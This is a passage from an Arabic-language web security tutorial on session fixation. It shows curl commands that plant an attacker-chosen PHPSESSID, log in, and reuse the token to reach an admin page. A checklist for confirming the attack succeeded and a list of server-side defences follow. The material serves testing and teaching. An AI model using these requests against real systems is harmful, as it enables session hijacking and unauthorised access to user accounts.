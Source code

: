 ➡️ لما الضحية تنقر على الرابط، تُرسل الطلب بجلسة معينة → يمكنك الوصول بها.

---

### مثال 3: استخدام cURL لتحديث الجلسة

```bash
curl -b "PHPSESSID=hacker_session" -d "username=admin&password=pass123" https://vulnerable.com/login
```

بعدين تستخدم نفس التوكن في طلب جديد:

```bash
curl -b "PHPSESSID=hacker_session" https://vulnerable.com/admin
```

---

# 🧭 ء Checklist: هل الـ Session Fixation مجربة وناجحة؟

| الشيفرة | النتيجة |
|--------|---------|
| تقدر تعيّن Session ID قبل login | ✅ |
| الـ Session ID ما يتغيّرش بعد login | ✅ |
| تقدر تستخدم نفس التوكن لدخول الحساب | ✅ |
| الـ Session متصلة بالمستخدم المصادق عليه | ✅ |

---

# 🛡️ كيف تعرف أنه معمول لها حماية؟

- الخادم **يُعيد إنشاء الجلسة عند تسجيل الدخول**.
- يتم تجاهل أي Session ID مدخل مسبقًا.
- الـ Session ID مش بناءً على ما يدخله المستخدم → بل يتم توليده عشوائيًا.

---

